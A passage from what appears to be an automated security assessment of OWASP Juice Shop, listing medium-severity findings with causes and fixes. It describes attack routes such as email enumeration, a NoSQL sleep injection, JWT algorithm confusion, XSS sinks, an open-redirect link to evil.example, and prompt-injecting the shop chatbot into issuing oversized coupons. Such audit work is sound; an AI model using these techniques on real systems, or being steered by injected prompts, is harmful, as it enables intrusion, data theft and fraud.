**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-030](#w-030) - Unauthenticated memories list returns user records (`memory.ts:24`)

**Issue:** GET `/rest/memories` has no auth middleware and uses `findAll` with include UserModel, returning joined user records of every uploader to any anonymous caller.

**Evidence:** ✓ verified

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ◑ [M-109](#m-109) — Restrict memory listing fields and require auth

**Classification:** Error Information Disclosure · STRIDE: Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-100"></a><a id="f-100"></a>
#### F-100 · Unauthenticated application configuration endpoint

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:607`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-031](#w-031) - Unauthenticated application configuration endpoint (`server.ts:607`)

**Issue:** GET `/rest/admin/application-configuration` is registered without `isAuthorized` and returns the whole config object except `llmApiUrl`, exposing internal settings to anonymous callers.

**Evidence:** ✓ verified

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ◑ [M-110](#m-110) — Require auth and allowlist config fields

**Classification:** Error Information Disclosure · STRIDE: Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-101"></a><a id="f-101"></a>
#### F-101 · Security question endpoint reveals

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/securityQuestion.ts:21`

**Found by:** verification ([TC-AUTHN-05](#tc-authn-05))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** GET `/rest/user/security-question` returns the account's question when the email exists and an empty object otherwise, without authentication. An attacker can enumerate registered emails by probing addresses and distinguishing the responses.

**Evidence:** ✓ verified

**Fix:** ◑ [M-111](#m-111) — Return uniform responses for known and unknown emails

**Classification:** Error Information Disclosure · STRIDE: Information Disclosure · [CWE-204](https://cwe.mitre.org/data/definitions/204.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/) · Verification items: [TC-AUTHN-05](#tc-authn-05)

<a id="t-102"></a><a id="f-102"></a>
#### F-102 · Account enumeration

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/securityQuestion.ts:23`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An unauthenticated attacker queries GET `/rest/user/security-question?email=` for candidate addresses; a non-empty response confirms the account exists and reveals its recovery question.

**Evidence:** ✓ verified

**Fix:** ◑ [M-112](#m-112) — Return uniform response for recovery lookups

**Classification:** Error Information Disclosure · STRIDE: Information Disclosure · [CWE-204](https://cwe.mitre.org/data/definitions/204.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-103"></a><a id="f-103"></a>
#### F-103 · Unauthenticated Prometheus metrics endpoint

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:676`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-004](#w-004) - Endpoints are reachable without enforced authentication

**Issue:** GET `/metrics` is registered with no authentication and exposes user counts, wallet totals, order counts and challenge/cheat scores to any caller.

**Evidence:** ✓ verified

**Fix:** ◑ [M-113](#m-113) — Protect the metrics endpoint

**Classification:** Unauthenticated Management Plane · STRIDE: Information Disclosure · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-104"></a><a id="f-104"></a>
#### F-104 · Whoami exposes session data

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/currentUser.ts:58`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** GET `/rest/user/whoami` honors a callback parameter via `res.jsonp` and a fields parameter that returns any `user.data` key (including password hash); a cross-site script include with the victim's cookie leaks that data.

**Evidence:** ✓ verified

**Fix:** ◑ [M-114](#m-114) — Restrict CORS to trusted origins

**Classification:** Supply-Chain Integrity · STRIDE: Information Disclosure · [CWE-346](https://cwe.mitre.org/data/definitions/346.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-105"></a><a id="f-105"></a>
#### F-105 · Log files served to any caller

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/logfileServer.ts:14`

**Found by:** verification ([TC-FILE-01](#tc-file-01))

**Reliability:** Medium. An automatic check confirmed part of the claim.

**Weakness:** [W-041](#w-041) - Log files served to any caller (`logfileServer.ts:14`)

**Issue:** Any caller fetches any file name from `/support/logs`, including access logs holding client IPs, URLs and tokens in query strings.

**Evidence:** ✓ verified

**Fix:** ◑ [M-115](#m-115) — Require authorization for log file access

**Classification:** Unauthenticated Management Plane · STRIDE: Information Disclosure · [CWE-548](https://cwe.mitre.org/data/definitions/548.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-FILE-01](#tc-file-01)

<a id="t-106"></a><a id="f-106"></a>
#### F-106 · Encryption keys folder listed and served publicly

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:277`

**Found by:** verification ([TC-FILE-01](#tc-file-01))

**Reliability:** Medium. An automatic check confirmed part of the claim.

**Weakness:** [W-042](#w-042) - Encryption keys folder listed and served publicly (`server.ts:277`)

**Issue:** Any caller browses `/encryptionkeys`, which has directory listing, and downloads any file in it through the file route, exposing key material kept there.

**Evidence:** ✓ verified

**Fix:** ◑ [M-116](#m-116) — Stop serving the encryption keys folder

**Classification:** Unauthenticated Management Plane · STRIDE: Information Disclosure · [CWE-548](https://cwe.mitre.org/data/definitions/548.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-FILE-01](#tc-file-01)

<a id="t-107"></a><a id="f-107"></a>
#### F-107 · Data export finds orders by non-unique masked e-mail

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/dataExport.ts:33`

**Found by:** verification ([TC-AUTHZ-01](#tc-authz-01))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** The export looks up orders with the e-mail whose vowels are replaced by asterisks. An attacker registering an e-mail that masks to the same string receives other users' order data in the export.

**Evidence:** ✓ verified

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◑ [M-117](#m-117) — Enforce object-level (ownership) authorization (🟡 [F-107](#f-107))

**Classification:** Broken Access Control · STRIDE: Information Disclosure · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01)

<a id="t-108"></a><a id="f-108"></a>
#### F-108 · Order history matches orders by masked email

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/orderHistory.ts:17`

**Found by:** verification ([TC-AUTHZ-02](#tc-authz-02))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** GET `/rest/order-history` looks up orders by the caller's email with vowels masked. The same pattern matches other users' orders when their emails differ only in vowels, so an attacker can read their order history.

**Evidence:** ✓ verified

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◑ [M-118](#m-118) — Query order history by the exact authenticated identity

**Classification:** Broken Access Control · STRIDE: Information Disclosure · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-02](#tc-authz-02)

<a id="t-109"></a><a id="f-109"></a>
#### F-109 · Order tracking returns any order by identifier

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/trackOrder.ts:18`

**Found by:** verification ([TC-AUTHZ-01](#tc-authz-01))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** GET `/rest/track-order/:id` is registered without authentication, and the handler queries orders by the id only. Anyone who knows or guesses an order id reads that order, with no check against the owner.

**Evidence:** ✓ verified

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◑ [M-119](#m-119) — Enforce object-level (ownership) authorization (🟡 [F-109](#f-109))

**Classification:** Broken Access Control · STRIDE: Information Disclosure · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01)

<a id="t-110"></a><a id="f-110"></a>
#### F-110 · Captcha answer returned to client and reusable

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/captcha.ts:31`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** GET `/rest/captcha` returns the computed answer in the JSON response, and verification does not consume the captcha, so automation can read the answer and submit feedback repeatedly without solving anything.

**Evidence:** ✓ verified

**Fix:** ◑ [M-120](#m-120) — Keep captcha answers server-side and single-use

**Classification:** Broken Authentication · STRIDE: Information Disclosure · [CWE-804](https://cwe.mitre.org/data/definitions/804.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-112"></a><a id="f-112"></a>
#### F-112 · OAuth access token passed in URL fragment and query string

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - Angular Frontend  ·  **Location:** `frontend/src/app/Services/user.service.ts:68`

**Found by:** verification ([TC-AUTHN-07](#tc-authn-07))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-037](#w-037) - OAuth access token passed in URL fragment and query string (`user.service.ts:68`)

**Issue:** The implicit grant returns the access token in the URL fragment, and the client then sends it to the userinfo endpoint as an `access_token` query parameter. The token can leak through browser history, logs and proxies, and can be replayed by whoever obtains it.

**Evidence:** ✓ verified

**Fix:** ◑ [M-122](#m-122) — Send tokens in headers and drop the implicit grant

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-598](https://cwe.mitre.org/data/definitions/598.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-07](#tc-authn-07)

<a id="t-113"></a><a id="f-113"></a>
#### F-113 · Challenge flags replayed to every connecting

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:30`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** On connection the server emits all stored notifications, including each solved challenge's CTF flag, to the new socket. An attacker connecting anonymously receives flags and challenge data of other users.

**Evidence:** ✓ verified

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ◑ [M-123](#m-123) — Scope notifications to authenticated sessions

**Classification:** Error Information Disclosure · STRIDE: Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-115"></a><a id="f-115"></a>
#### F-115 · Event loop blocked by busy-wait sleep

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/showProductReviews.ts:23`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-013](#w-013) - Event loop blocked by busy-wait sleep in review queries

**Issue:** An attacker injects `sleep(2000)` into the reviews \$where predicate and repeats requests, each blocking the single Node event loop for two seconds and starving all other users.

**Evidence:** ✓ verified

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ◑ [M-125](#m-125) — Rate-limit expensive requests and bound input size

**Classification:** Denial of Service · STRIDE: Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-116"></a><a id="f-116"></a>
#### F-116 · Unvalidated event payload types throw

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:46`

**Reliability:** Low. Not confirmed, this may be a false positive: data?.match on a non-string object would throw, but whether it crashes the process depends on socket\.io error handling not shown. The regex is not clearly catastrophic.

**Weakness:** [W-005](#w-005) - Input handling lacks enforced boundary validation

**Issue:** An attacker emits `verifySvgInjectionChallenge` with a non-string such as an object; `data.match` is not a function throws synchronously inside the socket handler, which can raise an uncaught exception, and large strings feed an unanchored lazy regex.

**Evidence:** ◌ ambiguous

**Fix:** ◑ [M-022](#m-022) — Manual review: verify Unvalidated event payload types throw in handlers · ◑ [M-126](#m-126) — Type-check payloads and wrap handlers

**Classification:** Denial of Service · STRIDE: Denial of Service · [CWE-20](https://cwe.mitre.org/data/definitions/20.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-117"></a><a id="f-117"></a>
#### F-117 · Chatbot coupon tool accepts unbounded discount

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/chat.ts:184`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** LLM06/ASI02: a user prompt-injects the chatbot into calling `generateCoupon` with a large discount. The 10% cap exists only in prompt text; the schema is a bare `z.number()` and the server issues a coupon for any value.

**Evidence:** ✓ verified

**Fix:** ◑ [M-127](#m-127) — Enforce discount range and eligibility server-side

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-20](https://cwe.mitre.org/data/definitions/20.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-118"></a><a id="f-118"></a>
#### F-118 · Any logged-in user can delete any feedback

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:501`

**Found by:** verification ([TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-02](#tc-authz-02))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** DELETE `/api/Feedbacks/:id` is guarded only by `isAuthorized`, which checks token validity. Any authenticated customer can delete other users' feedback by id.

**Evidence:** ✓ verified

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◑ [M-128](#m-128) — Restrict feedback deletion to admins

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-02](#tc-authz-02)

<a id="t-119"></a><a id="f-119"></a>
#### F-119 · Basket items readable and deletable across users

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:501`

**Found by:** verification ([TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-02](#tc-authz-02))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** GET and DELETE `/api/BasketItems/:id` are generated by finale behind `isAuthorized` only, with no comparison to the caller's basket. An authenticated user can read or delete any customer's basket item by id.

**Evidence:** ✓ verified

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◑ [M-129](#m-129) — Bind basket item access to the caller's basket

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-02](#tc-authz-02)

<a id="t-077"></a><a id="f-077"></a>
#### F-077 · No brute-force protection on login handler

**Severity:** 🟡 Medium  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `routes/login.ts:32`

**Reliability:** Low. Not confirmed, this may be a false positive: The login route is registered without inline rate limiting, but global middleware was not shown, so absence of throttling is unproven.

**Weakness:** [W-011](#w-011) - No brute-force protection on login handler (`login.ts:32`)

**Issue:** The login handler applies no rate limiting or lockout in the code read, so an attacker can guess passwords at will and take over accounts.

**Evidence:** ◌ ambiguous

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ◑ [M-014](#m-014) — Manual review: verify No brute-force protection on login handler · ◑ [M-090](#m-090) — Add rate limiting and lockout to auth routes

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-078"></a><a id="f-078"></a>
#### F-078 · JWT verification does not pin an algorithm

**Severity:** 🟡 Medium - elevated to Critical as a verified attack-chain keystone in AC-T-003 (Privilege Escalation to Admin via JWT Algorithm Confusion); see [§9](#9-abuse-cases)  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:55`

**Found by:** verification ([TC-AUTHN-02](#tc-authn-02))

**Reliability:** Low. Not confirmed, this may be a false positive: No algorithm is pinned in verify or `isAuthorized`, but jws/express-jwt version behavior for `HS256` public-key confusion is not shown, so exploitability is unproven.

**Weakness:** [W-003](#w-003) - Authentication relies on hand-rolled token verification

**Issue:** Verification at `express-jwt`, `jws.verify` and `jwt.verify` is called with the public key but no algorithms list (`express-jwt` is cast to any). An attacker could try algorithm-confusion tokens, for example `HS256` keyed with the public key, to forge identities.

Whether the library versions reject this is not shown.

**Evidence:** ◌ ambiguous

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ◑ [M-015](#m-015) — Manual review: verify JWT verification does not pin an algorithm · ● [M-091](#m-091) — Pin RS256 in every token verification call

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-AUTHN-02](#tc-authn-02)

<a id="t-111"></a><a id="f-111"></a>
#### F-111 · Card numbers and TOTP secrets stored unencrypted

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Sequelize application data access  ·  **Location:** `models/card.ts:38`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-035](#w-035) - Card numbers and TOTP secrets stored unencrypted (`card.ts:38`)

**Issue:** Payment card numbers and TOTP secrets are persisted as plain column values in the SQLite file; an attacker reading the file or a backup obtains them directly. Database disclosure exposes full card numbers and 2FA secrets, enabling fraud and 2FA bypass.

**Evidence:** ✓ verified

**Fix:** Encrypt the data in transit and at rest with vetted primitives → ◑ [M-121](#m-121) — Encrypt sensitive columns

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-311](https://cwe.mitre.org/data/definitions/311.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-114"></a><a id="f-114"></a>
#### F-114 · User listing exposes sensitive fields to any

**Severity:** 🟡 Medium  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `routes/authenticatedUsers.ts:25`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-032](#w-032) - User listing exposes sensitive fields to any authenticated user

**Issue:** Any logged-in customer can call the authentication-details endpoint and receive every user's record including role, email and last login IP; only password and `totpSecret` are masked.

**Evidence:** ✓ verified

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ◑ [M-124](#m-124) — Restrict user listing to admins and trim fields

**Classification:** Error Information Disclosure · STRIDE: Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-075"></a><a id="f-075"></a>
#### F-075 · OAuth implicit flow without state parameter

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - Angular Frontend  ·  **Location:** `frontend/src/app/login/login.component.ts:148`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-025](#w-025) - OAuth sign-in requests are not bound to the user's browser session

**Issue:** Google login redirects with `response_type=token` and no state or nonce. An attacker can have a victim complete a login with an attacker-supplied token, or capture an access token delivered in the URL fragment, and use it to authenticate as that account.

**Evidence:** ✓ verified

**Fix:** Enforce a same-origin or signed CSRF token on every state-changing endpoint → ◑ [M-088](#m-088) — Use authorization code flow with PKCE and state

**Classification:** Cross-Site Request Forgery (CSRF) · STRIDE: Spoofing · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-079"></a><a id="f-079"></a>
#### F-079 · Redirect allowlist bypass

**Severity:** 🟡 Medium  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:136`

**Reliability:** Low. Not confirmed, this may be a false positive: `includes()` substring matching is confirmed, but the redirect route consuming `isRedirectAllowed` was not supplied, so exploitability is unproven.

**Weakness:** [W-043](#w-043) - Redirect allowlist bypass through substring match (`insecurity.ts:136`)

**Issue:** `isRedirectAllowed` accepts any URL that merely contains an allowlisted string, so an attacker can craft a redirect target on a malicious host with an allowed URL in its query, enabling phishing from the trusted origin.

**Evidence:** ◌ ambiguous

**Fix:** ◑ [M-016](#m-016) — Manual review: verify Redirect allowlist bypass through substring match · ◑ [M-092](#m-092) — Match redirect URLs exactly against the allowlist

**Classification:** Open Redirect · STRIDE: Spoofing · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-080"></a><a id="f-080"></a>
#### F-080 · Cookie-authenticated profile update lacks

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/updateUserProfile.ts:38`

**Reliability:** Low. Not confirmed, this may be a false positive: No CSRF token and no cookie options are visible, but exploitability depends on browser SameSite defaults, CORS and middleware outside the window; the cross-site cookie attachment is unproven.

**Weakness:** [W-026](#w-026) - Cookie-authenticated changes lack request authenticity checks

**Issue:** A malicious page auto-submits a cross-origin form to POST `/profile`; the browser attaches the token cookie and the server changes the victim's username and reissues a token.

**Evidence:** ◌ ambiguous

**Fix:** Enforce a same-origin or signed CSRF token on every state-changing endpoint → ◑ [M-017](#m-017) — Manual review: verify Cookie-authenticated profile update lacks CSRF protection · ◑ [M-093](#m-093) — Add CSRF token and SameSite cookie flags

**Classification:** Cross-Site Request Forgery (CSRF) · STRIDE: Tampering · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-087"></a><a id="f-087"></a>
#### F-087 · Model setters skip HTML sanitization on challenge branch

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Sequelize application data access  ·  **Location:** `models/product.ts:45`

**Reliability:** Low. Not confirmed, this may be a false positive: Setter skips sanitization when the challenge flag is enabled, but default flag state, write routes and render sinks are not shown, so exploitability is unproven.

**Weakness:** [W-010](#w-010) - Frontend rendering lacks enforced output encoding

**Issue:** When the challenge flag is enabled, the product description and user email setters store attacker-supplied markup unsanitized, and feedback/username use legacy sanitizers; an attacker submits script-bearing values that persist and may execute when rendered. Stored markup in product, user or feedback fields could run script in other users' browsers, depending on the unserved render path.

**Evidence:** ◌ ambiguous

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-019](#m-019) — Manual review: verify Model setters skip HTML sanitization on challenge branch · ◑ [M-100](#m-100) — Always sanitize input in model setters

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-093"></a><a id="f-093"></a>
#### F-093 · User emails rendered as trusted HTML in admin

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - Angular Frontend  ·  **Location:** `frontend/src/app/administration/administration.component.ts:73`

**Found by:** verification ([TC-INPUT-04](#tc-input-04))

**Reliability:** Medium. An automatic check confirmed part of the claim.

**Weakness:** [W-010](#w-010) - Frontend rendering lacks enforced output encoding

**Issue:** The admin page wraps each user's email in an HTML string, marks it trusted and binds it to `innerHTML`. A user who registers with markup in the email runs script in the admin's browser.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-103](#m-103) — Render user emails as text in admin view

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-04](#tc-input-04)

<a id="t-094"></a><a id="f-094"></a>
#### F-094 · DOM XSS

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - Angular Frontend  ·  **Location:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**Found by:** survey and verification ([TC-INPUT-04](#tc-input-04))

**Reliability:** Low. Not confirmed, this may be a false positive: Trusted-HTML sink with `innerHTML` is shown, but attacker control of `lastLoginIp` (server-side derivation) is unproven.

**Weakness:** [W-010](#w-010) - Frontend rendering lacks enforced output encoding

**Issue:** The last-login-IP page (`frontend/src/app/last-login-ip/last-login-ip.component.ts:39`) decodes the JWT from `localStorage`, wraps the `lastLoginIp` claim in HTML, marks it trusted and binds it with `innerHTML`, bypassing Angular's default sanitizer. If an attacker can make the server record markup as the victim's last login IP (for example via a spoofed client IP header at logout), script runs in the victim's session when they open the page, allowing token theft.

How the server derives `lastLoginIp` was not read.

**Evidence:** ◌ ambiguous

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-020](#m-020) — Manual review: verify DOM XSS via trusted HTML of JWT last login IP · ◑ [M-104](#m-104) — Render last login IP as escaped text

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-04](#tc-input-04)

<a id="t-095"></a><a id="f-095"></a>
#### F-095 · Stored XSS risk from trusted product

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - Angular Frontend  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts:110`

**Found by:** survey and verification ([TC-INPUT-04](#tc-input-04))

**Reliability:** Low. Not confirmed, this may be a false positive: The sanitizer bypass on product descriptions is present, but the rendering template and the write path were not shown, so the exploit is unproven.

**Weakness:** [W-010](#w-010) - Frontend rendering lacks enforced output encoding

**Issue:** Product descriptions returned by the API are marked trusted and bound to `innerHTML` (`frontend/src/app/search-result/search-result.component.ts:110`). Anyone who can alter a description, for example through a product update API, gets script running in the browser of every shopper who views the product.

Server-side write controls were not examined.

**Evidence:** ◌ ambiguous - Sanitizer bypass is definite; the rendering template and the write path to descriptions were not served.

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-021](#m-021) — Manual review: verify Stored XSS risk from trusted product descriptions · ◑ [M-105](#m-105) — Stop trusting server-supplied product descriptions

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-04](#tc-input-04)

<a id="t-123"></a><a id="f-123"></a>
#### F-123 · Open redirect

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - Web3 / Wallet / NFT Surface  ·  **Location:** `routes/redirect.ts:16`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** The `/redirect` handler allows any URL that merely contains an allowlisted string. An attacker crafts a link such as `https://evil.example/?x=https://github.com/juice-shop/juice-shop`, and victims are redirected to the attacker site for phishing or crypto-address substitution.

**Evidence:** ✓ verified

**Fix:** ◑ [M-131](#m-131) — Use exact-match redirect allowlist

**Classification:** Open Redirect · STRIDE: Elevation of Privilege · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-088"></a><a id="f-088"></a>
#### F-088 · Missing Container Image Signing

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:1`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-003](#w-003) - Authentication relies on hand-rolled token verification

**Issue:** Missing Container Image Signing: Unsigned container images cannot be verified for provenance - any registry intermediary could substitute them.

**Evidence:** ✓ verified

